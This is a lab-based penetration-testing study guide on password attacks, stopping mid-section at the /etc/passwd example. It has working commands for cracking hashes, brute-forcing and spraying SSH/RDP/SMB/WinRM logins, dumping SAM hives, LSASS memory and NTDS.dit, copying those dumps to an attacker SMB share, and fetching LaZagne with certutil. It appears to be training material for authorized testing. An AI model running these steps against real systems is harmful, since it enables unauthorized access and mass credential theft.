# Password Attacks

This document outlines common techniques used in **password attacks**. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

# Table of Contents

- [Password Attacks](#password-attacks)
  - [Overview](#overview)
  - [Password Cracking Techniques](#password-cracking-techniques)
    - [John The Ripper](#john-the-ripper)
    - [Hashcat](#hashcat)
    - [Cracking Protected Files](#cracking-protected-files)
    - [Cracking Protected Archives](#cracking-protected-archives)
  - [Remote Password Attacks](#remote-password-attacks)
    - [Network Services](#network-services)
    - [Spraying, Stuffing, and Defaults](#spraying-stuffing-and-defaults)
  - [Extracting Passwords from Windows Systems](#extracting-passwords-from-windows-systems)
    - [Attacking SAM, SYSTEM, and SECURITY](#attacking-sam-system-and-security)
    - [Attacking LSASS](#attacking-lsass)
    - [Attacking Windows Credential Manager](#attacking-windows-credential-manager)
    - [Attacking Active Directory and NTDS.dit](#attacking-active-directory-and-ntdsdit)
    - [Credential Hunting in Windows](#credential-hunting-in-windows)
  - [Extracting Password from Linux Systems](#extracting-password-from-linux-systems)
    - [Linux Authentication Process](#linux-authentication-process)
    - [Credential Hunting in Linux](#credential-hunting-in-linux)

---

## Overview

Authentication is fundamentally the process of verifying identity. Most authentication mechanisms rely on one or more of the following four factors:

- `Something you know` – Password, PIN, passphrase
- `Something you have` – ID card, smart card, hardware token, authenticator app
- `Something you are` – Biometrics (fingerprint, facial recognition, voice)
- `Somewhere you are` – Geolocation, IP address

Depending on the sensitivity of the system or data being accessed, authentication may require a single factor or multiple factors (MFA).

Despite improvements in authentication technologies, **passwords remain the most widely used mechanism**. While Multi-Factor Authentication (MFA) significantly increases security, it can negatively impact usability, so many organizations continue to rely primarily on passwords.

Numerous studies consistently show that:

- Users frequently choose weak or predictable passwords
- Password manager adoption remains relatively low
- Password reuse across multiple services is common
- Many users fail to change passwords even after known breaches

These behaviors significantly increase the effectiveness of password-based attacks, particularly when combined with credential stuffing or brute-force techniques.

A useful resource for identifying breached email addresses and passwords is:

- [HaveIBeenPwned](https://haveibeenpwned.com/)

---

## Password Cracking Techniques

Stored passwords are typically hashed to provide an additional layer of protection in the event of a data breach. Common hashing algorithms include `MD5` and `SHA-256`, though modern applications increasingly use stronger, adaptive algorithms such as `bcrypt`, `scrypt`, or `PBKDF2`.

The following examples generate `MD5` and `SHA-256` hashes for the password `Welcome1`:

```bash
echo -n Welcome1 | md5sum

# b56e0b4ea4962283bee762525c2d490f
```

```bash
echo -n Welcome1 | sha256sum

# 7e19e31ae82d749034fc921f777f717ba5b57c6add9add889eb536ac6effcde0
```

Hash functions are one-way operations, meaning the original plaintext password cannot be directly recovered from the hash. Instead, attackers attempt to reproduce the hash by guessing candidate passwords and comparing their computed hashes against the target.

Common cracking approaches include:

- **Dictionary attacks** – testing words from curated wordlists
- **Brute-force attacks** – attempting every possible character combination
- **Hybrid attacks** – combining wordlists with mutations (numbers, symbols, casing)

A rainbow table is a precomputed lookup table that maps plaintext passwords to their corresponding hashes. If a target hash exists in the table, the original password can be recovered almost instantly.

To mitigate rainbow table attacks, most modern systems implement **salting**. A salt is a random value appended or prepended to a password before hashing. This ensures identical passwords generate different hashes and dramatically reduces the effectiveness of precomputed tables.

Example of hashing a salted password:

```bash
echo -n Th1sIsmyS@lt_Welcome1 | md5sum

# d34c7d34c2240fc6ada520c9f3685eb0  -
```

Because each user typically has a unique salt, attackers must crack each hash individually, significantly increasing computational cost.

Brute-force attacks attempt every possible character combination until the correct password is discovered. While feasible for short or simple passwords, this approach becomes impractical as password length and complexity increase.

Cracking speed is heavily influenced by the hashing algorithm:

- Fast hashes (e.g., `MD5`, `SHA1`) are highly susceptible to brute force
- Slow, adaptive hashes (e.g., `bcrypt`, `DCC2`) are intentionally designed to resist cracking by increasing computational overhead

As a result, attacking `MD5` hashes is orders of magnitude faster than attacking `bcrypt` or `DCC2`.

---

### John The Ripper

John the Ripper is an open-source password cracking utility that has been actively developed since 1996. It supports multiple cracking modes, including:

- Single crack mode
- Wordlist mode
- Incremental mode

Each mode targets different attack scenarios depending on the available data and password complexity.

**Single Crack Mode**

Single crack mode is a rule-based technique commonly used when targeting Linux credentials. Password candidates are generated using information associated with each account, including:

- Username
- Home directory name
- `GECOS` fields (real name and metadata)

These values are typically extracted from `/etc/passwd`.

Example `passwd` entry:

```
r0lf:$6$ues25dIanlctrWxg$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash
```

In this case, John leverages:

- Username: `r0lf`
- Real name: `Rolf Sebastian`
- Home directory: `/home/r0lf`

to generate targeted password guesses.

Run single crack mode:

```bash
john --single passwd
```



The hash is successfully cracked:
```
NAITSABES
```

**Wordlist Mode**

Wordlist mode performs a dictionary attack by hashing each entry from a supplied wordlist and comparing it against the target hash.

The following example cracks a `RIPEMD-128` hash using `rockyou.txt`:

```bash
john --wordlist=rockyou.txt --format=ripemd-128 hash.txt
```



Recovered password:

```
50cent
```

**Incremental Mode**

Incremental mode is a brute-force–based technique that generates passwords dynamically using statistical models (`Markov chains`). Unlike wordlist attacks, it does not rely on predefined dictionaries.

Instead, candidate passwords are generated based on probabilistic patterns, making this approach more efficient than traditional brute force.

Character sets and password lengths are defined in `john.conf` and can be customized as needed.

Example:

```bash
john --incremental --format=ripemd-128 hash.txt
```



Recovered password:
```
50cent
```

**Hash Identification**

In some cases, hash types may not be immediately obvious. Tools such as `hashid` can assist with identification. Using the `-j` flag also displays the corresponding John the Ripper format:

```bash
hashid -j 193069ceb0461e1d40d216e32c79c704
```


---

### Hashcat

Hashcat is an open-source password cracking utility capable of attacking hundreds of different hash types. Each supported hash is assigned a specific mode ID.

A full list of supported hashes and their corresponding IDs can be displayed with:

```bash
hashcat --help
```



When the hash type is unknown, tools such as `hashid` can assist with identification. Using the `-m` flag also provides the appropriate Hashcat mode:

```bash
hashid -m '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'
```

In this example, the hash is identified as `MD5`.



The most commonly used Hashcat attack modes are:

- Dictionary attack (`-a 0`)
- Mask attack (`-a 3`)

**Dictionary Attack**

A dictionary attack compares one or more hashes against entries from a predefined wordlist.

The attack mode is specified with `-a`, and the hash mode with `-m`. Dictionary attacks use mode `0`:

```bash
hashcat -a 0 -m 0 'e3e3ec5831ad5e7288241960e5d4fdb8' rockyou.txt
```

Recovered password:

```
crazy!
```



**Rule-Based Attacks**

A raw wordlist may not always be sufficient. Hashcat supports rule-based mutations that modify each wordlist entry (adding digits, changing case, substituting characters, etc.).

Predefined rule files are located at:

```
/usr/share/hashcat/rules
```



Rules are applied using the `-r` flag. The following example uses `best64.rule`, which contains 64 common transformation rules:

```bash
hashcat -a 0 -m 0 '1b0556a75770563578569ae21392630c' rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

Recovered password:

```
c0wb0ys1
```



**Mask Attacks**

A mask attack (`-a 3`) is a targeted brute-force technique where the password structure is explicitly defined. This method is highly effective when password policies or formatting patterns are known.

Hashcat provides built-in character sets represented by special symbols:

| Symbol          | Character set                                                              |
| --------------- | -------------------------------------------------------------------------- |
| `?l`            | `abcdefghijklmnopqrstuvwxyz` (lowercase letters)                           |
| `?u`            | `ABCDEFGHIJKLMNOPQRSTUVWXYZ` (UPPERCASE letters)                           |
| `?d`            | `0123456789` (digits)                                                      |
| `?h`            | `0123456789abcdef` (hexadecimal - lowercase)                               |
| `?H`            | `0123456789ABCDEF` (hexadecimal - UPPERCASE)                               |
| `?s`            | ``«space»!"#$%&'()*+,-./:;<=>?@[]^_`{`` (special characters)               |
| `?a`            | `?l?u?d?s` (any character)                                                 |
| `?b`            | `0x00 - 0xff` (binary)                                                     |

The following example defines a mask consisting of:

- One uppercase letter
- Four lowercase letters
- One digit
- One special character

```bash
hashcat -a 3 -m 0 '1e293d6912d074c0fd15844d803400dd' '?u?l?l?l?l?d?s'
```

Recovered password:

```
Mouse5!
```



---

### Cracking Protected Files

Encryption of sensitive files is increasingly common in both personal and enterprise environments. However, protected files can often be cracked given sufficient time, compute resources, and effective wordlists.

Individual files and folders are typically protected using **symmetric encryption** algorithms such as `AES-256`, where the same key is used for both encryption and decryption. During transmission, **asymmetric encryption** is more commonly employed, using a public/private key pair.

From an attacker’s perspective, the goal is to extract the underlying password hash from the protected file and perform offline cracking.

**Identifying Encrypted Files**

A simple bash one-liner can be used to locate commonly encrypted document types on a Linux system:

```bash
for ext in $(echo ".xls .xls* .xltx .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```



Some sensitive files (such as SSH private keys) do not rely on file extensions. In these cases, searching for known headers or footers is effective.

SSH private keys always begin with:

```
-----BEGIN [...SNIP...] PRIVATE KEY-----
```

Search for private SSH keys:

```bash
grep -rnE '^\-{5}BEGIN [A-Z0-9]+ PRIVATE KEY\-{5}$' /* 2>/dev/null
```



To determine whether an SSH key is encrypted, attempt to read it with `ssh-keygen`. Encrypted keys will prompt for a passphrase:

```bash
ssh-keygen -yf ~/.ssh/id_rsa
```

**Extracting Hashes with John the Ripper**

John the Ripper includes multiple helper scripts for extracting hashes from protected files. These scripts typically follow the `*2john` naming convention.

List available scripts:

```bash
locate *2john*
```



Extract the hash from an SSH private key using `ssh2john.py`, then crack it with John:

```bash
# Extract hash
ssh2john.py SSH.private > ssh.hash

# Crack hash
john --wordlist=rockyou.txt ssh.hash
```

Most enterprise documents are distributed as Microsoft Office files or PDFs.

Use `office2john.py` to extract hashes from Office documents:

```bash
# Extract hash
office2john.py Confidential.xlsx > confidential-xlsx.hash

# Crack hash
john --wordlist=rockyou.txt confidential-xlsx.hash
```

Recovered password:

```
beethoven
```



Extract hashes from PDF files using `pdf2john.py`:

```bash
# Extract hash
pdf2john.py PDF.pdf > pdf.hash

# Crack hash
john --wordlist=rockyou.txt pdf.hash
```

---

### Cracking Protected Archives

There are many archive and container formats that may be encountered during engagements. Common examples include:

- `tar`
- `gz`
- `gzip`
- `zip`
- `7z`
- `rar`
- `bitlocker`

When attacking password-protected archives, the typical workflow is:

- Extract the password hash
- Perform offline cracking using John the Ripper or Hashcat

**ZIP Archives**

The `zip` format is commonly encountered on Windows systems.

Use `zip2john` to extract the hash, then crack it with John:

```bash
# Extract hash
zip2john ZIP.zip > zip.hash

# Crack hash
john --wordlist=rockyou.txt zip.hash
```

**GZIP/TAR Archives**

Formats such as `gzip` and `tar` do not natively support password protection. However, they are often encrypted using tools such as `openssl` or `gpg`.

Cracking OpenSSL-encrypted archives directly with John can be unreliable and may result in false positives. In these cases, manually attempting decryption using OpenSSL in a loop is often more effective.

Example brute-force loop using OpenSSL:

```bash
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```

If successful, decrypted files will be extracted to the current directory.

**Bitlocker**

BitLocker is a Windows full-disk encryption feature that uses `AES` (128-bit or 256-bit). If the primary password is unavailable, a 48-digit recovery key may also be used.

The `bitlocker2john` script extracts four hashes:

- The first two correspond to the user password
- The latter two correspond to the recovery key

Unless partial recovery key data is available, cracking the password hashes is typically more practical.

Extract hashes:

```bash
# Extract all hashes
bitlocker2john -i Private.vhd > backup.hashes

# Grab password hash
grep "bitlocker\$0" backup.hashes > backup.hash

# Crack hash with John
john --wordlist=rockyou.txt backup.hash

# Crack hash with hashcat
hashcat -a 0 -m 22100 backup.hash rockyou.txt
```

Recovered password:

```
francisco
```



**Mounting Bitlocker Volumes on Linux**

Once the BitLocker password is recovered, encrypted drives can be mounted on Linux using `dislocker`.

Install `dislocker`:

```bash
sudo apt install dislocker
```

Create mount directories:

```bash
sudo mkdir -p /media/bitlocker
sudo mkdir -p /media/bitlockermount
```

Attach the VHD as a loop device:

```bash
# Configure as loop-device
sudo losetup -f -P Private.vhd
```

Identify the assigned loop device (`loop0p1`):

```bash
lsblk
```



Decrypt and mount:

```bash
# Decrypt
sudo dislocker /dev/loop0p1 -ufrancisco -- /media/bitlocker

# Mount
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
```

Verify access:

```bash
cd /media/bitlockermount

ls -la
```



---

## Remote Password Attacks

---

### Network Services

In addition to web applications, penetration testers frequently encounter a wide range of network services, including:

- `FTP`
- `SSH`
- `Telnet`
- `RDP`
- `WinRM`
- `SMB`
- `NFS`
- `MySQL/MSSQL`
- `IMAP/POP3`
- `SMTP`
- `LDAP`

Many of these services are often misconfigured, exposed unnecessarily, or deployed with weak or default credentials.

**WinRM**

**Windows Remote Management (WinRM)** is Microsoft’s implementation of the **Web Services Management Protocol (WS-Management)**. It is an XML-based protocol that uses **SOAP** to enable remote management of Windows systems.

On modern Windows versions (10/11), WinRM is disabled by default and must be explicitly enabled. When active, it typically listens on:

- `5985` – HTTP
- `5986` – HTTPS

`NetExec` is a versatile post-exploitation and credential-testing framework that supports multiple protocols, including WinRM, SMB, LDAP, and MSSQL.

Install NetExec:

Install `NetExec`:

```bash
sudo apt install netexec -y
```

Perform a username/password attack against WinRM:

```bash
netexec winrm 10.129.202.136 -u user-wordlist -p password-wordlist
```

Recoverd credentials:

```
john:november
```



Once valid credentials are obtained, `Evil-WinRM` can be used to establish an interactive PowerShell session.

Install `Evil-WinRM`:

```bash
sudo gem install evil-winrm
```

Authenticate:

```bash
evil-winrm -i 10.129.202.136 -u john -p november
```

Successful login initializes a remote shell:



**SSH**

**Secure Shell (SSH)** provides encrypted remote access to Linux and Unix systems and listens on port `22` by default.

Tools such as `Hydra` can be used to brute-force SSH credentials:

```bash
hydra -L user-wordlist -P password-wordlist ssh://10.129.202.136
```

Recovered credentials:

```
dennis:rockstar
```



Authenticate using the OpenSSH client:

```bash
ssh dennis@10.129.202.136
```



**RDP**

**Remote Desktop Protocol (RDP)** enables remote graphical access to Windows systems and typically runs on port `3389`.

Brute-force RDP credentials with Hydra:

```bash
hydra -L user-wordlist -P password-wordlist rdp://10.129.202.136
```

Recovered credentials:

```
chris:789456123
```



Authenticate using `XFreeRDP`:

```bash
xfreerdp /v:10.129.202.136 /u:chris /p:789456123
```


**SMB**

**Server Message Block (SMB)** is widely used in Windows environments for file sharing and printer services.

Attempt brute-force authentication with Hydra:

```bash
hydra -L user-wordlist -P password-wordlist smb://10.129.202.136
```

Older versions of Hydra may fail against SMBv3 targets:

```
[ERROR] invalid reply from target smb://10.129.202.136:445/
```



In this case, either update Hydra or use Metasploit’s SMB login module:

```bash
search auxiliary/scanner/smb/smb_login
use 0
set RHOSTS 10.129.202.136
set USER_FILE user-wordlist
set PASS_FILE password-wordlist
run
```

Recovered credentials:

```
cassie:12345678910
```

After obtaining credentials, `NetExec` can enumerate available shares and privileges:

```bash
netexec smb 10.129.202.136 -u cassie -p 12345678910 --shares
```



Connect to a specific share using `smbclient`:

```bash
smbclient -U cassie \\\\10.129.202.136\\CASSIE
```



---

### Spraying, Stuffing, and Defaults

Password-based attacks are not limited to traditional brute-force techniques. In enterprise environments, attackers frequently leverage **password spraying**, **credential stuffing**, and **default credentials** to gain initial access with minimal noise.

**Password Spraying**

Password spraying is a brute-force technique where a **single password** is tested against many user accounts or services. This approach avoids account lockouts and is especially effective in environments where users are initialized with default or weak passwords.

In Active Directory environments, tools such as `NetExec` and `Kerbrute` are commonly used.

Example password spray against SMB:

```bash
netexec smb 10.100.38.0/24 -u user-wordlist -p 'ChangeMe123!'
```

Password spraying is often performed with a small set of commonly used passwords to minimize detection.

**Credential Stuffing**

Credential stuffing involves testing **known username/password pairs** obtained from breaches or previous compromises against additional services.

Because many users reuse credentials across platforms, this technique can quickly lead to lateral movement.

If a file containing `username:password` pairs is available, `Hydra` can be used to target specific services such as SSH:

```bash
hydra -C user-pass-wordlist ssh://10.100.38.23
```

Credential stuffing is most effective when combined with service discovery and enumeration.

**Default Credentials**

Many devices and applications (routers, firewalls, databases, management platforms) ship with default credentials. These are frequently left unchanged, creating easy entry points.

The `Default Credentials Cheat Sheet` tool automates searching for known default credentials.

Install:

```bash
pip3 install defaultcreds-cheat-sheet
```

Search for defaults related to MySQL:

```bash
creds search mysql
```



After identifying potential credentials, they can be formatted as `username:password` pairs and tested with Hydra:

```bash
hydra -C mysql-default-creds mysql://10.100.38.23
```

---

## Extracting Passwords from Windows Systems

The Windows authentication process involves multiple components working together to validate users and enforce security policies. At the core of this process is the **Local Security Authority (LSA)**, a protected subsystem responsible for authentication, local security policy enforcement, and translation between usernames and Security Identifiers (SIDs).

**LSASS**

The **Local Security Authority Subsystem Service (LSASS)** governs authentication on Windows systems. It is located at:

```
%SystemRoot%\System32\lsass.exe
```

LSASS is responsible for:

- Enforcing local security policies
- Authenticating users
- Managing credential material in memory
- Forwarding security audit events to the Windows Event Log

Because LSASS holds credential data in memory, it is a high-value target during post-exploitation.

**SAM Database**

The **Security Account Manager (SAM)** is a database that stores local user account credentials. Passwords are stored as `LM` (legacy) or `NTLM` hashes within the Windows registry.

The SAM file is located at:

```
%SystemRoot%\System32\config\SAM
```

Accessing the SAM database requires SYSTEM-level privileges.

Windows systems can operate in either:

- **Workgroup mode** – credentials are stored locally in the SAM
- **Domain mode** – authentication is handled by a Domain Controller (DC)

On domain-joined systems, user credentials are validated against Active Directory, and the primary credential store becomes `NTDS.dit` on the DC.

To increase resistance against offline attacks, Windows can protect the SAM database using **SYSKEY**, which partially encrypts credential material at rest.

**NTDS** 

In enterprise environments, Windows systems are commonly joined into an Active Directory domain. This centralizes authentication and system management.

Each Domain Controller maintains a copy of:

```
%SystemRoot%\NTDS\ntds.dit
```

This database is replicated across all Domain Controllers in the forest (except Read-Only Domain Controllers).

The `NTDS.dit` file contains:

- Usernames and password hashes
- Group accounts
- Computer accounts
- Group Policy Objects (GPOs)

Compromising `NTDS.dit` effectively exposes all domain credentials, making Domain Controllers prime targets during lateral movement and privilege escalation.

---

### Attacking SAM, SYSTEM, and SECURITY

With administrative access to a Windows system, a common first step is to dump registry hives associated with the SAM database and perform offline credential extraction.

Three registry hives are of primary interest:

- `HKLM\SAM`
  - Stores local account password hashes.
- `HKLM\SYSTEM`
  - Contains the system boot key required to decrypt the SAM database.
- `HKLM\SECURITY`
  - Stores LSA-related secrets, including cached credentials, DPAPI keys, and service account passwords.

Launch `cmd.exe` or PowerShell with administrative privileges and use `reg.exe` to export the hives:

```powershell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```



**Transferring Registry Hives**

Next, set up an SMB server on the attacker machine and transfer the exported files.

Create an SMB share named `RegistryData` pointing to a local directory:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support RegistryData /home/htb-ac-681215/Desktop
```

From the compromised Windows host, move the hive files to the SMB share:

```powershell
move sam.save \\10.10.14.51\RegistryData
move security.save \\10.10.14.51\RegistryData
move system.save \\10.10.14.51\RegistryData
```



The files are now available on the attacker system:



**Dumping Offline Hashes**

Impacket’s `secretsdump` can extract credentials from the saved registry hives:

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```



The output format is:

- `uid:rid:lmhash:nthash`

Modern Windows systems primarily store `NT` hashes. Legacy systems may also contain `LM` hashes, which are significantly weaker and easier to crack.

Extract the `NT` hashes into a separate file:



Crack the hashes using Hashcat. `NT` hashes correspond to mode `1000`:

```bash
hashcat -a 0 -m 1000 hashes.txt rockyou.txt
```

Successfully cracked hashes:

```
a3ecf31e65208382e23b3420a34208fc:mommy1
c02478537b9727d391bc80011c2e2321:matrix
58a478135a93ac3bf058a5ea0e8fdb71:Password123
```



**DPAPI and LSA Secrets**

In addition to SAM hashes, `secretsdump` also extracts machine and user keys related to **DPAPI** from `HKLM\SECURITY`.

The **Data Protection API (DPAPI)** encrypts sensitive data on a per-user basis and is used by many Windows components and third-party applications, including:

- Internet Explorer
- Google Chrome
- Outlook
- Remote Desktop Connection
- Credential Manager

DPAPI blobs can be decrypted using tools such as

- Impackets `dpapi`
- `mimikatz`
- `DonPAPI`

**Remote SAM and LSA Dumping**

If valid local administrator credentials are available, SAM and LSA secrets can also be extracted remotely without manually copying registry hives.

Dump LSA secrets:

```bash
netexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```



Dump SAM hashes:

```bash
netexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --sam
```



The remotely extracted data matches what was obtained via offline hive dumping, demonstrating a faster alternative once administrative credentials are available.

---

### Attacking LSASS

In addition to the SAM database, the **Local Security Authority Subsystem Service (LSASS)** is a high-value target.

After a user logs in, LSASS:

- Caches credentials in memory
- Creates access tokens
- Enforces security policies
- Writes authentication events to the Windows Security log

Because credentials are stored in memory, dumping the LSASS process often reveals plaintext passwords, NT hashes, Kerberos tickets, and other sensitive material.

**Dumping LSASS Memory**

The typical workflow is to dump LSASS process memory and extract credentials offline.

Common methods include:

- Task Manager (GUI-based)
- rundll32.exe with comsvcs.dll (CLI-based)

**Task Manager Method**

If GUI access is available:

1. Open `Task Manager`
2. Select the `Processes` tab
3. Right click on the `Local Security Authority Process`
4. Select `Create dump file`



A file called `lsass.DMP` is saved in `%TEMP%`.



**Transferring the Dump File**

Create an SMB share on the attacker system:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support LsassDump /home/htb-ac-681215/Desktop
```

From the compromised host, transfer the dump:

```powershell
move lsass.DMP \\10.10.14.51\LsassDump
```



The dump file is now available locally:



**Rundll32.exe Method**

The Task Manager approach requires GUI access. A faster and more flexible method uses `rundll32.exe` and `comsvcs.dll`.

First, identify the LSASS process ID (PID).

**CMD**

```powershell
tasklist /svc
```



**PowerShell**

```powershell
Get-Process lsass
```



With the PID (`648`) identified, dump LSASS:

```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 648 C:\lsass.dmp full
```

This invokes `MiniDumpWriteDump` via `comsvcs.dll`, creating a full memory dump of the LSASS process at `C:\lsass.dmp`.

Transfer the dump file to the attacker system using SMB, as shown previously.

**Extracting Credentials with Pypykatz**

`pypykatz` is a Python implementation of Mimikatz that allows LSASS dump parsing directly from Linux.

Extract credentials:

```bash
pypykatz lsa minidump /home/htb-ac-681215/Desktop/lsass.DMP
```

The output includes SIDs, usernames, domains, NT hashes, SHA1 hashes, and sometimes plaintext credentials:



**Cracking NT Hashes**

Extracted NT hashes can be cracked with Hashcat using mode `1000`:

```bash
hashcat -a 0 -m 1000 31f87811133bc6aaa75a536e77f64314 rockyou.txt
```

Recovered password:

```
Mic@123
```



---

### Attacking Windows Credential Manager

The **Windows Credential Manager** allows users and applications to store credentials for remote systems, services, and websites.

Credential data is stored in encrypted directories within user and system profiles:

- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

Each vault directory contains a `policy.vpol` file holding AES (128- or 256-bit) keys protected by **DPAPI**. These AES keys encrypt the stored credentials.

Modern Windows versions may also implement **Credential Guard**, which further protects DPAPI master keys and limits credential extraction.

Windows stores two primary credential types:

- Web Credentials
  - Used for websites and online accounts
- Windows Credentials
  - Used for system authentication, network resources, and applications such as OneDrive

**Exporting Credential Vaults**

Vault contents can be exported as `.crd` files via the Control Panel:



Alternatively, the Credential Manager UI can be opened directly:

```powershell
rundll32 keymgr.dll,KRShowKeyMgr
```

**Enumerating Stored Credentials**

The built-in `cmdkey` utility lists credentials stored for the current user:

```powershell
cmdkey /list
```



This indicates cached domain credentials for `SRV01\mcharles`. The interactive tag means the credentials are valid for interactive logons.

If such credentials exist, they can often be abused using `runas`:

```powershell
runas /savecred /user:SRV01\mcharles cmd
```



This launches a new command prompt under the stored user context without prompting for a password.

**Extracting Credentials with Mimikatz**

`mimikatz` can retrieve Credential Manager entries either directly from memory using `sekurlsa` or by manually decrypting vault data via the `dpapi` module.

A common approach is dumping credentials from LSASS memory:

```powershell
mimikatz.exe
privilege::debug
sekurlsa::credman
```



If successful, this reveals usernames, domains, and sometimes plaintext passwords associated with Credential Manager entries.

---

### Attacking Active Directory and NTDS.dit

**Active Directory (AD)** is the primary directory service used in modern Windows enterprise environments. If a target organization uses Windows systems at scale, it is safe to assume AD is present.

Compromising AD often results in full domain takeover.

**Dictionary Attacks Against AD Using NetExec**

A dictionary attack is a brute-force technique where usernames and/or passwords from wordlists are tested against a target service. These attacks generate significant network traffic and are therefore noisy.

To reduce noise, attacks should be tailored to the target environment. This commonly involves building a custom username wordlist based on the organization’s naming convention.

Assume the following employees were identified during reconnaissance:

- Ben Williamson
- Bob Burgerstien
- Jim Stevenson
- Jill Johnson
- Jane Doe
- John Doe
- John Marston
- Jennifer Stapleton

Tools such as [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) can generate realistic username permutations:  

```bash
./username-anarchy -i names.txt > names-custom.txt
```



**Enumerating Valid Usernames with Kerbrute**

Before attempting password attacks, it is often useful to identify valid usernames. This can be done with `kerbrute`.

Install:

```bash
git clone https://github.com/ropnop/kerbrute.git
cd ./kerbrute
make all
```

Enumerate users:

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.202.85 --domain inlanefreight.local names-custom.txt
```



Once the naming convention is identified (`firstinitiallastname`), a targeted password attack can be launched with `netexec`:

```bash
netexec smb 10.129.202.85 -u names-.txt -p /usr/share/wordlists/fasttrack.txt
```

Recovered credentials:

```
jmarston:P@ssword!
```



**Capturing NTDS.dit**

The **NT Directory Services (NTDS)** database (`NTDS.dit`) is stored on Domain Controllers at:

```
%SystemRoot%\NTDS\NTDS.dit
```

This file contains:

- Domain user password hashes
- Computer accounts
- Group memberships

Compromising `NTDS.dit` typically results in full domain compromise.

**Accessing the Domain Controller**

```bash
evil-winrm -i 10.129.202.85 -u jmarston -p 'P@ssword!'
```


*
To extract `NTDS.dit`, membership in both **Administrators** and **Domain Admins** is required.

Verify privileges:

```powershell
net localgroup
```



and 

```powershell
net user jmarston
```



The account belongs to both required groups.

**Creating a Volume Shadow Copy**

Since `NTDS.dit` is locked while Windows is running, a **Volume Shadow Copy (VSS)** is created:

```powershell
vssadmin CREATE SHADOW /For=C:
```



Copy `NTDS.dit` from the shadow volume:

```powershell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\Users\jmarston\Documents\NTDS.dit
```



**Transferring Files to the Attacker Host**

Create an SMB share on the attacker system:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support NtdsData /home/htb-ac-681215
```

Move the database:

```powershell
cmd.exe /c move C:\Users\jmarston\Documents\NTDS.dit \\10.10.14.51\NtdsData 
```

The encryption key for `NTDS.dit` resides in the `SYSTEM` hive, which must also be extracted:

```powershell
cmd.exe /c reg.exe save hklm\system C:\Users\jmarston\Documents\system.save
cmd.exe /c move C:\Users\jmarston\Documents\system.save \\10.10.14.51\NtdsData
```



**Dumping Domain Hashes**

Extract hashes using Impacket’s `secretsdump`:

```bash
impacket-secretsdump -ntds NTDS.dit -system system.save LOCAL
```



**Alternative: One-Step NTDS Dump with NetExec**

The entire multiple-step process above can be automated in one step:

```bash
netexec smb 10.129.202.85 -u jmarston -p P@ssword! -M ntdsutil
```



**Cracking Domain Hashes**

Place extracted NT hashes into a file and crack with Hashcat:

```bash
hashcat -a 0 -m 1000 hashes.txt rockyou.txt
```

Recovered password:

```
92fd67fd2f49d0e83744aa82363f021b:Winter2008
```

---

### Credential Hunting in Windows

After gaining access to a target system, credential hunting can often lead to rapid privilege escalation or lateral movement. Credential hunting refers to systematically searching the filesystem and memory for stored credentials, configuration secrets, and authentication artifacts.

**Common Search Keywords**

- Passwords
- Passphrases
- Keys
- Username
- User account
- Creds
- Users
- Passkeys
- configuration
- dbcredential
- dbpassword
- pwd
- Login
- Credentials
- gitlab

These terms are commonly found in configuration files, scripts, backups, and documentation.

**Manual Searching via GUI**

With GUI access, Windows Search can quickly uncover sensitive files:



This is useful for locating:

- Configuration files
- Backup archives
- Scripts
- Credential exports

**Automated Credential Discovery with LaZagne**

[LaZagne](https://github.com/AlessandroZ/LaZagne/releases/) is a post-exploitation credential recovery tool that targets a wide range of applications and Windows subsystems. It consists of multiple modules, including:

- browsers
- chats
- mails
- memory
- sysadmin
- windows
- wifi

**Transferring LaZagne to the Target**

Start an HTTP server on the attacker machine:

```bash
python3 -m http.server 8001
```

Download the executable on the target using `certutil`:

```
certutil.exe -urlcache -split -f http://10.10.14.51:8001/LaZagne.exe
```

Execute LaZagne with all modules enabled:

```powershell
start LaZagne.exe all
```

Recovered credentials:

```
ubuntu:FSadmin123
```



**Searching Files with Findstr**

The Windows `findstr` utility can be used to recursively search files for credential-related strings. This is equivalent to Linux `grep`.

Example:

```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```



This technique is effective for discovering:

- Hardcoded credentials
- Database connection strings
- API keys
- Git configuration files
- PowerShell scripts

---

## Extracting Password from Linux Systems

---

### Linux Authentication Process

One of the most commonly used Linux authentication mechanisms is **Pluggable Authentication Modules (PAM)**. PAM-related modules, such as `pam_unix.so` or `pam_unix2.so`, are typically located in:

```
/usr/lib/x86_64-linux-gnu/security/
```

on Debian-based systems.

PAM modules are responsible for handling:

- User authentication
- Account management
- Session management
- Password changes

The primary files used by `pam_unix.so` are:

- `/etc/passwd`
- `/etc/shadow`

**The /etc/passwd File**

The `/etc/passwd` file contains account information for every user on the system. Each entry consists of seven colon-separated fields.

Example:

```
